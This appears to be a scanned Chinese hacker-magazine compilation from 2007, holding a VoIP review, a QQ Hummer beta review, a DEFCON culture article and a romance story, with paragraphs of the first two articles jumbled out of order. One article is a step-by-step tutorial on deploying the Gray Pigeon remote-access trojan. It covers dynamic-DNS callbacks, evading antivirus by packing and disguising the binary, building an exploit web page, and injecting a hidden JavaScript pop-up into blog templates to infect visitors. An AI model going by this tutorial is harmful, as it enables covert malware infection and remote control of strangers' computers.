# 非安全黑客手册合订本2007年①②季第二部分

---

“添加 Vbuzzer Messenger联系人”是通过添加对方的 Vbuzzer 用户名和 E-mail 进行添加的，如图 9。

“添加电话本联系人”就是我们自己填写的一些好友信息，如图 10。

# QQ蜂鸟体验手记

- 从本文中你可以学到：
- QQ下一代产品 QQ 蜂鸟的一些情况

最近腾讯出了自己的下一代产品——QQHummer，中文的意思也就是“QQ蜂鸟”，目前还正处于内测的阶段，笔者很荣幸地获得了内测的资格。我想大家一定想抢先看看腾讯的 QQ 蜂鸟到底是什么？会有一些什么样的变化呢？好，那么就请大家观看下面的文章。

4、录音。这个算是这款软件的一大特色吧，其实就是在和对方通话之间进行录音，这个功能必须在进行通话的时候才能使用，通话的时候点击界面上的小按钮就可以了，它默认是灰色的，如图 11。

# 一、登录界面的改变

此次 QQ 蜂鸟改变了腾讯一直使用的方形登录框，而改成了类似 MSN 的长条形登录框。在色调方面也改变不少，主要采用半透明的浅灰色方案，也正好吻合如今的 Vista，如图 1。

5、选项。在这里可以设置该软件的一些设置，都是很傻瓜化的，这里不多说了，如图 12。

其实这款免费电话软件还有很多的功能，例如免费语音留言信箱，就是可自行录制语音提示，留言自动转发至电子邮件信箱，功能是非常的强和多的，这都留给大家慢慢

在最上面就是此次 QQ 蜂鸟的版本，“QQ 蜂鸟 Alpha1 Demo”的意思就是“QQ 蜂鸟的第一个样本”。然后就是“登录状态”的设置，以及最下面的“网络设置”和其他一些快捷按钮。

体验吧！现在打电话再也不是问题了！可以随意向任何朋友通话，包括打向外地都是完全免费的！

[文章中涉及到的工具 VBUZZER 光盘中有收录]

我们可以看见主界面的改变也不小，上面修改成了显示“个人信息”，而在下面一点却变成了“QQ用户”、“QQ群”和“最近联系人”的切换标签，不过在最下面的工具部分还是改变不大，如图 2。

细心的读者可能已经发现了，在界面多出的这个箭头，这里也就是 QQ 蜂鸟的一个改变，点击之后就会出现一些服务，如图 3。

# 编辑点评：

电话现如今扮演的角色不再只是通讯工具了，而成了很多朋友聊天的途径，这就像 QQ，定位是即时通讯软件，但明明白白就是一款聊天软件嘛！煲电话粥的确是很爽的事情，不过爽过之后让人痛心疾首的事情就要算高额的电话费了吧！小编也是相当抠门的，我毫不避讳地承认，所以以前的时候也在网上找到一个免费发短信的软件 KC，最初是免费发每月 300 条啊，爽死了！后来一直没有再用过它，在一些媒体上也看到关于免费电话和短信的一些广告，没有想到的是现在还真出了完全免费打电话的软件！好东西当然要分享，不过不看《黑手》的朋友就没有这个免费午餐享用了，哈哈！

# 二、聊天界面以及群界面的改变

聊天的主界面也是非常的漂亮，还有特别实用的工具“消息记录”，点击之后会把以前的消息以灰色显示在信息框，在最下面就是广告了，还有右边的“QQ医生”也为广告，如图 4。

这里便是QQ群的界面了，除了显示成员这里变化之后，其

他的几乎没有变化，不过在右上角这里却出现了广告，如图 5。

# 三、个人资料显示的变化

个人资料这里变化了不少，变成“QQ资料”、“工作资料”和“个人资料”，如图 6。

看一下详细的界面，我们可以相互地切换左边的按钮，也可以点击全部资料查看所有，如图 7。

# 四、消息提取的改变

我们不仅可以使用快捷键和点击的方式来提取，还可以把鼠标移动到任务栏上 QQ 蜂鸟的图标，它会显示出当前的 QQ 消息条数，然后点击全部，这就是 QQ 蜂鸟的消息盒子，如图 8。

# 五、菜单栏的改变

菜单这次多出了一个“显示个人信息”的地方，有点像 XP 里面的“开始”，如图 9。

# 六、设置界面的改变

设置界面改变不少，有点 Vista 的味道，也细化了一下设置，大家逐个打开即可进行 QQ 蜂鸟的设置了，如图 10。

# 七、添加联系人的改变

添加好友这里我们只要输入 QQ 号码便可以简要地看到好友的资料，要详细的可以点击一下“更多资料”，如图 11。

# 八、消息管理器的改变

消息管理改得更加详细以及人性化了，如图 12。

# 总结

笔者也是测试了几天才写出的文章，不管是从界面、操作还是 CPU 的占用率等方面，这次 QQ 蜂鸟都是不错的。还有一些更多的改变还需要大家一起寻找，我就写到这里了。希望大家也能及时地体验到正式版 QQ 蜂鸟。

> [文章中涉及到的 QQ 蜂鸟 Alpha1 软件光盘中有收录]

## 编辑点评:

与时俱进说了也好几年了，但这确实是一个硬道理，只有不断前进才能在市场上生存。QQ 蜂鸟让我们看到了腾讯下一代即时通讯软件的雏形，已经大有和 Windows Vista 接轨的势头。小编感觉 QQHummer 的界面给人很科技、现代和人性化，真的和 Vista 有异曲同工之妙。随着 Vista 的到来，Windows 平台的应用软件必将进入一个给用户带来新体验的时代，期待着 QQHummer 正式版的发布。

# 菜鸟级——鸽子上线+免杀+挂马

龙月

- 从本文你可以学到：
1、灰鸽子的基础使用知识
2、如何对灰鸽子木马进行实用的简单免杀
3、免费空间挂马

首先声明：在下是个菜鸟。当我也与身边的同学谈论电脑的时候，我都很郁闷，什么是灰鸽子？什么是网马？什么是木马免杀？都不清楚！这让我们对他们说自己电脑很好产生怀疑！我说这些并不是针对他们，其实，在现实生活中又有多少人知道这些东西呢（想当年我也是连什么是端口都不知道的超级菜鸟！）？为此，我也大显一下共享精神！给那些不知道灰鸽子怎么利用的菜鸟讲解一下我的鸽子上线+免杀+挂马。这可是偶的处女作啊！写的不好希望大家见谅：）

# 关于鸽子：

灰鸽子可以说是国内后门的集大成者，其具有丰富而强大的功能、灵活多变的操作，是一款优秀的远程控制软件。该木马会向系统里释放病毒文件，并修改注册表实现开机自动运行。中毒之后，攻击者可对电脑进行远程控制，进行多种危险操作，如：记录键盘、结束指定的进程、强制重启电脑、执行系统命令、获取系统信息、从网上下载指定的文件等等。对灰鸽子完整的介绍也许只有灰鸽子作者本人能够说清楚，在此我们只能进行简要介绍。

# 准备工作：

灰鸽子中自带 FTP 上线功能可以稳定地连接中了灰鸽子木马的肉鸡，但是这需要一个 FTP 站点。虽然网上有很多免费的 FTP 空间可让我们利用这种上线方式，但是为了避免哪天免费空间突然停止服务，让好不容易弄到手的肉鸡瞬间消失，我在此建议使用另一种方法——域名上线！域名上线相对于 FTP 上线更加快捷，肉鸡上线快多了。

## 1、申请域名

IE 登陆“http://www.3322.org/”，点击“用户注册”，如图 1。注册之后用户名和密码就会发到你的邮箱里面，我们再次回到“http://www.3322.org/”填上我们的用户名和密码，登录。

点击“管理域名”，之后我们选择“动态域名”，点击“新建”，我们来填写域名的名称。“主机名：”我们这里就填“huigezi888”，你也可以根据自己的喜好随意填写；后面的我们选择“6600.org”，之后点击“确定”，如图 2。其它的不用理它，域名就告一段落，下面我们来配置鸽子。

## 2、配置鸽子

配置之前，关掉杀毒软件的病毒防火墙。打开灰鸽子客户端，点击“服务器配置”。在“IP 通知 HTTP 访问地址，DNS 解析域名或固定 IP”中填写我们申请好的域名，就是“huigezi888.6600.org”。这是很关键的一步，千万不要输错！

其它的就根据自己的喜好来配置，这里我们不再多说“服务器配置”的其它功能。选择好后我们点击“生成服务器”，灰鸽子木马就会生成到指定的目录中，如图 3。为了给免杀做准备，我们在配置时，选择“不加壳”方式生成！

## 3、第一次测试上线

双击运行我们配置好的鸽子木马，前提是得把杀毒软件关掉哦！因为现在还没有进行免杀，所以杀毒软件认为它是病毒。运行后，等着上线，呵呵，上线了，如图 4。

## 4、鸽子木马免杀+内存免杀

什么是免杀？简单地说，就是让你的鸽子木马不被杀毒软件杀掉。免杀主要分为两个环节，程序免杀和内存免杀。

- 程序免杀：说白了就是让木马在杀毒软件的监控下能成功运行，用杀毒软件对木马本身进行查杀不会报警。
- 内存免杀：这是免杀的必要工作，有很多菜鸟只注重程序免杀，而忽视内存免杀，从而导致丢肉鸡的现象。虽然程序表面不被查杀，但是运行之后，大多数杀毒软件都会对内存进行监控，让我们的木马无法在内存中存活。

我们可以测试一下，现在我已经运行过鸽子木马了，就用瑞星来对内存查杀看看结果，如图 5，被杀掉了。

说了那么多，该动手了。其实免杀的方法有很多，例如：OD 一半一半定位法、CCL 或 MYCLL 定位特征码、加壳、加花、入口点 +1 等等。由于俺是个懒人，如果用 CCL 或 MYCLL 定位特征码，虽然效果惊人，但是还要修改什么代码，菜鸟不容易理解，而且很浪费时间。

间。所以懒人有懒人的方法，不用特征码定位，照样做到免杀。
开工，前提是先要关闭杀毒软件哦！首先用到的工具是 ha_peditor_1.7，用它输入入口点 +1。打开它，载入鸽子木马，只修改入口点，可以看到入口点为“000A1E48”，如图 6。我们把它改为“000A1E49”，即“8+1=9”。然后点击“应用更改”，关闭软件即可。

接着用到软件“木马帝国木马免杀器”，用它载入更改好入口点的鸽子木马，在“选择信息中”选择“Data Directory Information”这一项。点击“生成文件”，我在此保存为“a.exe”，如图 7。

然后再用“Svk-protector”加密一下，方法很简单，载入“a.exe”后选择“特殊选项”。勾选“使用压缩”，“末尾部分的名字”随意填写。在此我写的是“.s”，之后点击“保护”，中间会有一个警告提示，不用理会，直接点“是”（如图 8）之后提示“温馨提示：文件加密成功！”

最后来一个伪装，因为我们对其进行了多重加壳，对方可以用“PEID”进行查壳，看到我们有这么多壳，谁还敢运行啊！我们就用飞梦无痕的“文件伪装器”。
运行此软件，载入“a.exe”，选择其中一个来进行伪装，在此我选的是“C++6.0”，点击确定，如图 9。

用“PEID”查看一下外壳！呵呵……已经改为“C++6.0”了，如图 10。这样就会使人们认为这是无壳的程序，从而掉以轻心，鸽子免杀完毕，怎么样？简单吧？大概也就用了 5 分钟来免杀。

## 5、二次上线

我再次对免杀的鸽子进行上线测试和瑞星杀毒软件的内存查杀，都可以完全通过！如图 11。

## 6、万事俱备，只欠东风——网马制作

我们的“宝马”终于做好了，可是怎么让它在全国各地游走一遍呢？用最快、最好的方式就是挂马！网页挂马指的是把一个木马程序上传到一个网站或个人空间里面，然后用木马生成器生成一个木马网页，再把木马网页也上传到空间里面，再在正常网页加载木马网页使得木马在打开网页中运行！

下面我们就来制作网马，先把鸽子木马传到自己的空间，我申请的是 10MB 免费空间，支持 FTP 上传（既然支持 FTP，我们也可以用鸽子 FTP 上线！），而且上传下载速度相当 BT。申请网址：“http://www.wyaj.com/user/reg.php”，自己去注册吧。

拿到空间用户名和密码之后，用 LeapFTP 这个软件把鸽子木马上传上去，如图 12。接着就用网马生成器生成网马，我们就用“ms07004 网马生成器新黑客专版”生成一个，方法很简单，输入我们的木马地址（如图 13），然后点击“写入”就会在同目录下生成一个“Ms07001.html”文件，这就是我们的网马，把它也上传到我们的空间里面去。

> **注意**：由于网马是被查杀的，大家可以用很多方法自己对其进行免杀，本文意不在此，就不再介绍网马免杀啦！

## 7、网站挂马

怎么挂马？入侵网站，然后在其首页插入代码？由于技术问题，累死我等无知小辈也不会。有没有不入侵网站的方法？当然有的，那就是博客挂马。

前几天看到一本书中介绍了 sina 博客中的挂马方法，主要是 sina 博客中没有过滤 <iframe>。我刚才尝试了这种方法，官方已经过滤掉了！（郁闷，本想用这个方法的！）不过再仔细想想，连 sina 博客这么牛的博客网站都会存在这种低级的漏洞，那肯定也有其他的网站存在同样的问题！我就随机找了一些博客网站，还真有漏网之鱼。赶快去申请一个吧：“http://blog.jstmh.com/reg.asp”

注册好后会自动进入用户管理后台，这时我们必须选择一个模板并保存。提示成功后，我们选择最上面一排的“模板设置”一栏中的“修改 BLOG 内容模板”，点击“源码”，在最下面输入以下代码（如图 14）：

```markdown
javascript
<SCRIPT language=javascript>
window.open("http://www.baidu.com", "", "toolbar=no, location=no, directories=no, status=no, menubar=no, scrollbars=no, width=200, height=200");
</script>
```

最后点击“保存修改”！注意这里输入的是百度的网址，只是作个测试，自己弄的时候，把其中百度的网址改成自己的网马地址即可。还有一点，“width=200, height=200”是里面网马的长和宽，自己弄的时候都要改为 0，这样别人打开网页时就不会看见我们的网马了。为了表示测试成功我才设置为 200 的，这样我们就可以看到自动打开的，长和宽都是 200 像素的百度网页了。

## 8、测试成功

最后点击“我的首页”，看看效果！呵呵，成功了！如图 15。快把我们的网马挂在自己的博客上面吧，如果访问的人数多的话，那肉鸡滚滚来就是肯定的了。

# 最后总结：

本文没有任何技术理论，就是简单地运用前人的工具和网络中的免费资源。下面我对本文做个补充说明：

- 1、如果大家使用的是家里的 ADSL 上网，就属于动态 IP，必须在使用灰鸽子之前去我们申请域名的网站刷新我们的 IP 地址。也可用网站自带的客户端软件来本地刷 IP 地址。下载地址“http://www.3322.org/dyndnspage/client.html”。
- 2、免杀时，由于本人只安装了正版瑞星杀毒软件，对于其它的杀毒软件并未测试。
- 3、博客挂马只是一种方法，并不是只有本文中的博客网站才有漏洞的，大家也可以在免费论坛中挂马，方法大同小异。只要找对位置，插入代码就能做到挂马。

> 编辑点评：不得不承认，灰鸽子是国内后门的集大成者，其丰富强大的功能、灵活多变的操作，是一款优秀的远程控制软件！一直以来，远程控制软件就是一把双刃剑，正当合理的使用才是我们 RP 的关键，呵呵……在这里向各位菜菜们说一句：黑客是技术的交流，不是战争的对象。

*坐在电脑前，看着海边一拉沙和笨笨心情女人的两篇新作，前者是饱含作者自己真实经历的故事，后者是根据樱花浪子所述故事编写的一篇小说……正在遐想之时，一阵狂风夹着烟尘迅速靠近了我，“砰砰 XX 咣当”，烟尘散开之后，土豆手持不锈钢面盆，一个酷酷的背面 POSE 摆在那里，地上是小编惊恐万状的表情。“昨天你居然把那个无比清纯可爱的黑手女读者专门给我做的爱心饭团吃的一点不剩，还在这里对着文章标题发呆！”土豆很生气，后果很严重。正在小编瑟瑟发抖等待厄运降临之时，一位从容娴雅的女子突然在土豆的背后出现，“怎么，有清纯可爱的女读者专门给你做饭了？”土豆一回头，汗！脸上立马浮现笑容：“愚人节啦，开开玩笑而已。”“是吗？”……两人缓缓离开，小编终于长出一口气。人间四月天，小编突然想起一个讲述诗人徐志摩浪漫爱情的片子。 Ivory*

# 老美的黑客在干嘛——见识赌城 DEFCON 黑客年会的非主流文化

著名黑客 Adam Laurie 是一位信息安全专家兼 DefCon 黑客年会 (Annual Hacker Conference Defcon) 的组建者之一，他与一位经济学家聊天的时候，曾问过那位经济学家一个问题：你会几种语言？经济学家回答：四种。Adam Laurie 回答：我只会一种，那就是 010101，但是只需要这一种语言我就可以造成包括军事、经济、生活上极大的影响。

# 一、黑客简史

要对国外黑客文化更好地了解，就必须对国外的黑客简史要有基本的掌握。黑客的早期历史至少可以追溯到 20 世纪五六十年代。麻省理工学院 (MIT) 率先研制出“分时系统”，学生们第一次拥有了自己的电脑终端。不久后，MIT 学生中出现了大批狂热的电脑迷，他们称自己为“黑客”(Hacker)，即“肢解者”和“捣毁者”，意味着他们要彻底“肢解”和“捣毁”大型主机的控制。

1961 年，拉塞尔等三位大学生，在 PDP-1 上编制出第一个游戏程序“空间大战”。其他学生也编制出更多更“酷”的玩艺，例如象棋程序、在分时系统网络里给别人留言的软件等等。MIT 的“黑客”属于第一代，他们开发了大量有实用价值的应用程序。

60 年代中期，起源于 MIT 的“黑客文化”开始弥散到美国其他校园，逐渐向商业渗透，黑客们进入或建立电脑公司。他们中最著名的阿尔实验室的邓尼斯·里奇和肯·汤姆森，他俩在小型电脑 PDP-11/20 上编写出 UNIX 操作系统和 C 语言，推动了工作站电脑和网络的成长。MIT 的理查德·斯德曼曼后来发起成立了自由软件基金会，成为国际自由软件运动的精神领袖。他们都是第二代“黑客”的代表人物。

1975 年，爱德华·罗伯茨发明第一台微型电脑“牛郎星”。美国很快出现了一个电脑业余爱好者在汽车库里组装微电脑的热潮，并组织了一个“家庭酿造电脑俱乐部”，相互交流组装电脑的经验。以“家庭电脑俱乐部”为代表的“黑客”属于第三代，他们发动了一场个人电脑的革命。史蒂夫·乔布斯、比尔·盖茨等人创办了苹果和微软公司，后来都成了重量级的 IT 企业。

新一代“黑客”伴随着“嬉皮士运动”出现，艾比·霍夫曼是这代黑客的“始作俑者”。霍夫曼制造了许多恶作剧，常常以反对越战和迷幻药为题。1967 年 10 月，他领导了一次反战示威，号召黑客们去“抬起五角大楼”; 他还创办了一份地下技术杂志 TAP，告诉嬉皮士黑客如何在现存的体制下谋生，并大量介绍电话偷窃技术。

从 70 年代起，新一代黑客已经逐渐走向自己的反面。1970 年，约翰·达帕尔发现“嘎吱船长”牌麦圈盒里的口哨玩具，吹出的哨音可以开启电话系统，从而借此进行免费的长途通话。他在黑客圈子里被叫做“嘎吱船长”，因盗用电话线路而多次被捕。苹果公司乔布斯和沃兹奈克也制作过一种“蓝盒子”，成功侵入了电话系统。

1982 年，年仅 15 岁的凯文·米特尼克闯入了“北美空中防务指挥系统”，这是首次发现的从外部侵袭的网络事件。他后来连续进入美国多家大公司的电脑网络，把一些重要合同涂改得面目全非。1994 年，他向圣迭戈超级计算机中心发动攻击，将整个互联网置于危险的境地。米特尼克曾多次入狱，指控他偷窃了数以千计的文件以及非法使用 2 万多个信用卡，他是著名的“世界头号黑客”。

80 年代初，计算机地下组织开始形成，出现了早期的计算机窃贼。1984 年，德国汉堡出现的一个名叫“混沌”计算机俱乐部 (CCC)，其成员竟然通过网络将 10 万美元从汉堡储蓄银行转到 CCC 账号上。1987 年，CCC 的成员攻入了美国宇航局的 SPAN 网络。

1984 年，美国黑客戈德斯坦创办著名的黑客杂志 2600: The Hacker Quarterly; 10 年后，这份杂志已有可观的发行量，1995 年达到了 2 万册。

1988 年 11 月 2 日，美国康奈尔大学 23 岁 student 罗伯特·莫里斯，向互联网释放了“蠕虫病毒”，美国军用和民用电脑系统同## 二、DEFCON 黑客年会

## (1) DEFCON 的含义

DEFCON 实际上是美国军方描述战备状态的术语，分为 5 种战备状态：

- DEFCON 5——和平时期美军战备状态。
- DEFCON 4——进入初级战备状态，地面部队被授予作战权。冷战时代的美国大多数时期处于该级别。
- DEFCON 3——海军空军部队被授予作战权，美军通信采用加密。911 前后美军一度进入此级别。
- DEFCON 2——作战前夕状态。
- DEFCON 1——美国本土遭入侵或即将遭到核打击，全军进入最高作战状态。

可见，黑客年会利用 DEFCON 作为他们的名称，是具有很高本土文化的。

## (2) DEFCON 的历史

1977 年的那个夏天，DEFCON 第一次峰会（DEFCON 1）在美国赌城——拉斯维加斯举行。当初组建黑客年会的目的是为了黑客们更好地交流，在这之前黑客们都是通过电话联系，在酒吧进行交流，并时刻担心对方是 FBI 的卧底。在年会上，100 余名黑客分享了他们各自的入侵成果，并讲演了他们是如何入侵的。学习氛围非常好，但是他们讲演的内容都是具有很高实用价值和破坏性的，立刻被 FBI 关注。那也是 FBI 经常来“照会”和逮人的地方。

比如 2001 年，Dmitry Sklyarov 在 DEFCON 黑客年会上讲演他编写的一种程序，可以使用户通过 Adobe 系统公司的 eBook 阅读软件，复制并打印数字书籍，然后转移到其它电脑上，让电脑大声朗读。这被 FBI 当场指控涉嫌违反刚生效的《美国数字千年版权法》而受审。

曾经官方一度想取消这个地下黑客组织的年会，在持续的谈判下，DEFCON 年会被冻结了 2 年，但是后来美国军方安全部安全顾问在调查过他们的讲演稿后，认识到他们所谈论的内容，除了一些对国防破坏性极大外，当时他们的思想和理论已经超越了官方。所以在 2003 年重新默许对 DEFCON 年会的开放，但是现在参会的也包括了政府。美国军方最高安全顾问甚至是国家安全部以及 FBI 内部机关人士与检测单位在现场还是先来露脸“照会”一下，其实一部分目的也是想偷学他们的研究成果。

DEFCON 走过了 29 年的风风雨雨，总共举办了 14 次年会（DEFCON1-DEFCON14）。从最初 DEFCON1 参会的 100 余名黑客发展为到 DEFCON14 参会的 6000 余名黑客。由于参会人员的扩大，人员从业的范围也很广，如有的在无线安全领域、有的参与过卫星发射、甚至对武器的研究，使得 DEFCON 年会成为越来越具有技术含量的峰会。

预计 DEFCON 第 15 次年会将于 2007 年 8 月 3-5 日于拉斯维加斯的 Riviera Hotel 举行。

# 三、我眼中的 DEFCON

很多人肯定很感兴趣，那些黑客们到底在黑客年会上都做什么，谈论什么内容，通过什么样的形式来展现黑客技术？那我就以最近的比较成熟的 DEFCON14 年会来做标准，通过这些可以很好地折射国外的黑客文化。

## (1) 摇滚音乐

真正的摇滚是自由、反叛、无局域性和无私的；它运用音符组成了无数个或狂喜，或悲伤的神话。摇滚乐的人们行走是如此艰难，孤单。如果说，有一天摇滚乐妥协了，那摇滚已经不再摇滚了。我们谈过新一代“黑客”是伴随着“嬉皮士运动”出现的，正是这种自由、反叛、从不妥协的精神与黑客精神何其类似，使得摇滚音乐是黑客唯一喜欢和接受的音乐。如图 1 就是 DEFCON14 年会上的摇滚晚会。

## (2) 具有特色的艺术品

在每次 DEFCON 年会中，可以看到几乎每位黑客都穿戴着以黑色为基调的各种奇怪的服装和装饰品，包括衬衫、外衣、裤子、内衣、帽子等。甚至是入场券和 DEFCON 的骷髅头徽章都不会放过，也要涂鸦几笔或者是喷上自己喜欢的图案。其中一小部分是直接从 DEFCON 和各种黑客网店购买的，很大部分是他们自己设计和制作的，他们称之为：艺术。

其实我们可以认为这是他们独特黑客文化的结晶，如图 2 是 DEFCON 设计的衬衫；图 3 是需要帐号密码的女士粉红色内裤。

## (3) 夺旗——Capture the Flag 比赛

夺旗比赛是每次年会上都必须设置的项目，这是一场电脑安全大战。在预先配置好的两个相同复杂的网络环境基础上，参赛者的目标是进攻对手的网络，但同时又得看好自己的地盘。由于想参加的队伍都得先经过会前淘汰赛，因此能入围者都已经有相当实力。当然最后必然会有一方网络被彻底摧毁。美国 FBI 资深安全专家 THOMASX GRASSO JR 在此次夺旗比赛前表示：网络犯罪已经不再像前几年年轻人的恶作剧，金钱成为驱使网络犯罪的重要因素，网络犯罪也成为政府面对的犯罪问题之一。如图 4 为多夺旗比赛的现场。

## (4) 神秘铁盒——Mystery Box “Sub Challenge”

电子工程师 Ryan Clarke（绰号 Lost）在这次 Defcon14 年会办了一个“神秘铁盒”比赛。参赛者会拿到一个锁住的铁盒，外面还有电线缠绕，里面放了一个电路板。优胜者必须打开铁盒，破解一个图像谜题，分析电路板后找出一组通关密语。

- Lost 事先只提出以下规定：
  1. 神秘铁盒的设计者不许旁观
  2. 不许利用任何类型电脑和硬件设备对神秘铁盒进行破解
  3. 不能将神秘铁盒放在银行卡和任何具有强磁性物体旁边

15 对参赛队伍中，历经四小时的挑战后，仅有三组人马成功破解通关密语，其中以 Astcell 带领的团队最快。“我是想说在软件破解之外黑客也能加入硬件破解。”Lost 表示。

事后 Lost 指出，要完成这样一个神秘铁盒的比赛，至少要具备以下知识：

- 对单片机构造有所了解
- 需要懂得最基本的电路板设计原理
- 需要具备开锁的黑客技术
- 具有猜谜游戏的高智商黑客
- 基本的编码知识
- 基于 hyperterm 通信的 RS232 技术

很多参赛者表示：很喜欢这样的挑战，希望下次 DEFCON 中也能出现这样的游戏。如图 5 为神秘铁盒。

## (5) 开锁——Lockpicking

开锁也是 Defcon 传统之一，这是因为黑客认为锁也是一种安全挑战。与会的一位律师 Marc Tobias 还表示，常见的珠锁（pin tumbler locks）其实很容易打开，连破解文件都可以从网络上搜索到。

> “从风险与法律角度来看，这都是一个问题。”Tobias 表示。他推荐 Medeco 锁最安全，这是考察黑客对物理安全的挑战。

如图 6 为 DEFCON 上的开锁挑战，图 7 为 FBI 专家在为黑客演示如何解开手铐。

## (6) 设计与开发

既然是黑客大会，就免不了来场“电脑控制武器开发竞赛”。在名为 DefconBots 的竞赛中，黑客必须做出一支电脑控制的玩具枪，然后可由 10 英尺外的距离追踪静态目标加以击中。为了安全起见，子弹一律不得使用金属材料，仅能以塑胶弹为主。比赛规定禁止使用扫射方式，因此若参赛者击中涂成黑色的目标就会被扣分。如图 8 为黑客设计的玩具枪。

另外一个名为 WarDriving 的竞赛中，黑客必须制作由无线控制的飞行器。

# 四、反思黑客

纵观黑客年会，我们发现黑客技术越来越全面化，黑客这项帽子实在太大了，不是一般人可以戴得起的。国内许多报刊、杂志动不动就给一些进行过网络破坏的人贯以黑客大名，实在是荒唐，希望有以黑客自居的国人朋友能认识到与真正黑客的差距。

国内将黑客分成很多，比如红客、骇客、怪客等等，其实完全是对黑客的错误认识。黑客就是黑客，任何词语也替代不了的。是黑客就一定是会破坏的，或者具有破坏的能力。真正的黑客有他们自己的文化，他们从骨子里都可以透露出自由、反叛的精神，如果给黑客刻意加上一些守则、一些规定、一些分类，无疑是给自己一个耳光。

> 《纽约时报》曾在一篇文章中称黑客是“数字交流新卫士”，并评论说：黑客文化也许会融合进商业化利用互联网的主流中。这种乐观的预测也许代表了多数人对黑客的期望。但是，黑客文化会成为主流文化的一支吗？如果真是那样，黑客文化还存在吗？但反过来看，中国的黑客文化相对发展较晚，那又该何去何从？只能以时间来评说，我们也只能拭目以待。

# 罂粟凝眸

笨笨心情女人

小时候学校组织看战争片，看完回家后大人告诉我们，那银幕后面是有子弹壳可以捡的，我们信以为真，同样的，我们认为电影里的爱情也是真实，我们学着他们的一招一式，塞纸条，写情书，约会，拥抱甚至接吻。我们单纯的以为这就是爱情的全部内容，我们却不知道成长是需要付出代价的，而单纯终将会被世故取代。

高中的时候电脑并不普及，学校的主旋律就是流行看爱情小说，每个女孩子的课桌里都有一本风花雪月的爱情小说。姒灵爱看的却是厚厚的武侠，武侠中的每一个男子都是英俊非凡，正义勇敢。每一个女子都是聪慧漂亮，白衣胜雪。姒灵心中的男主角是班上那个比其他同学都大了两岁的煮海。

煮海是刚转过来的同学，不到半学期已经和班上的富家子弟打得火热。他理平头，白色的衬衣和深蓝的牛仔裤永远是干净的。脸上经常会出现高深莫测的笑，似乎所有的一切尽在他的掌握之中。无形中他已经成为了班上所有同学默认的老大，他会帮助受外班欺负的同学出头。奇怪的是，他跟学校护校队的老师关系非常好，经常会见到他们挽着手称兄道弟。

姒灵一直知道自己和煮海是两个世界的人，再加上女孩子的矜持，所以除了目光追随，姒灵并不主动去接近煮海。如果没有特殊情况发生，相信她和煮海永远只是平行线。

到了高三，课业非常繁重，同学们课桌里的言情小说全部换成了厚厚的资料书。所有同学的脸上都呈现出营养严重失调的菜色，心情也越来越差。午休铃响，姒灵抱着课本想去宿舍，却不小心踩到了一个男同学的脚，那同学想都没想一脚踢在了姒灵的膝盖上。姒灵痛得叫出声，腿当时就软了下去，再也站不起来。围观的同学没一个人出声，在高考的节骨眼上，任何人都不想管闲事。姒灵的眼泪因为疼痛和同学的淡然就这样一滴滴地掉落，硬生生地打在教室的水泥地板上。围观的同学随着事态没有进一步发展而慢慢散去，教室里慢慢静了下来。姒灵止住泪水，用手撑着身边的课桌椅站起来的时候发现眼前多了一只手，朦胧的眼睛望过去，煮海已经扶着自己的腰让自己坐到了椅子上。“我送你去宿舍”。煮海蹲下来，示意姒灵爬到自己的背上。姒灵有一刹的迟疑，终究还是让煮海送自己去了宿舍。一路上同学的侧目让姒灵把脸埋到了煮海的衣领下面，煮海身上独有的男人气息似乎让姒灵感觉自己就是武侠中那个衣袂飘飘的精灵女子。

原本以为事情就这样完了，哪料第二天，煮海托人把姒灵叫到了学校后面的小河边。全部是班上跟煮海关系很好的同学，围成一个圈，中间是昨天踢姒灵的那男孩。此时的他已经失去了昨天踢姒灵的狠劲，眼睛里面全是恐惧，脸是青紫的。煮海见姒灵到了，狠狠地向那男孩甩去一个耳光，并喝令那男孩跪下给姒灵道歉。姒灵呆呆地望着眼前这一切，不敢置信，用手轻轻地扯煮海的袖口，煮海疑惑地望着她说：“他喜欢用暴力解决问题，我就用暴力还给他，让他试下滋味。”姒灵又是感动又是惧怕地说：“不要了，他可能也是无心。”煮海不甘心地又踢了那男孩一脚：“姒灵为你求情，我这次放过你，下次你再敢对她怎样就没今天这么走运了。”说完，带着他的那帮同学离开，姒灵也跟在他们身后进了教室。

事情在班上传开，连外班的都知道了。所有的女同学见了姒灵都是暧昧的眼神，男同学却是不敢再跟姒灵多说一句话。倒是煮海的那帮朋友会不时地调侃姒灵，叫她嫂子，而煮海依旧是那副模样，看不出他心底到底是在想些什么，他甚至没跟姒灵多说过一句话。

时间过得太快，一不小心就到了放假的时候。大多数同学都在一个城市，所以相互邀请着假期一起去玩，放松下离考的心情。煮海也邀请了他那帮好兄弟一起去他家玩。姒灵落寞地看着同学们的脸绽放如烟花，知道同学们是不肯邀请她了，静静收拾好东西回家。

姒灵的家在这个城市的中心，她的卧室是跟父母分开的，有独立的门出入。放假后人整个轻松起来，不愿去想黑色的七月，那都是来年的事情。更多的夜晚她会想起那次煮海背着自己的情形，想着便没办法入睡。起来写日记，然后在日记的最后写上姒灵。姒灵的日记在初七的晚上有更新，时间是凌晨三点。

“已经初七了，还有一个礼拜又得去学校。不知道自己怎么回事，像是在混日子般，不想去看厚厚的复习资料，那会让我头疼。或许在逃避，或许有点期待，总想有点什么事发生。可上学期发生的事情让我精神恍惚，经常怀疑那件事是不是真实存在过。书上说这个年龄是理智懵懂情感萌动的，我是在动心了么？可是他的漠然明明摆着一副谁也没看在眼里的模样，以为自己和他就这样错过了，再也没有交集。可是今天晚上他竟然来敲我的门，我跟着他出去，有两个同学在，那是他的死党，还有几个不认识的男人，看起来应该不是学生。他怎么会跟社会上的人有牵连呢？只是我的欣喜不容许我去有丁点怀疑，因为他一直拉着我的手，他还叫我灵。我能闻到他叫我时口中的酒味，可是这有什么关系呢，我们是在开始了么？他说做我的女朋友吧，在广场避开他的朋友吻了我。我到现在都没办法形容当时的感觉，因为大脑是空白的，我的眼睛一直没有睁开，直到他离开了我的唇把我送回家我还不知道发生了什么事，他应该把我吓到了吧。我对着镜子看着自己，眼睛是迷离的。天啊，我的脸到现在还是红的，他怎么会喜欢上我的呢。我的心好乱，一如我的心情，依稀记得他好像约我明天去他家里玩。姒灵于正月初七。”

姒灵的快乐得要膨胀了。第二天下午煮海来接姒灵去他家，煮海的爸爸妈妈都上班去了，整个房子只剩下两个人。煮海把姒灵带到自己的卧室，很干净的房子，里面小组合柜上面放着一台电脑。姒灵诧异地望着煮海：“你会电脑？”“嗯，想学么，我教你”。

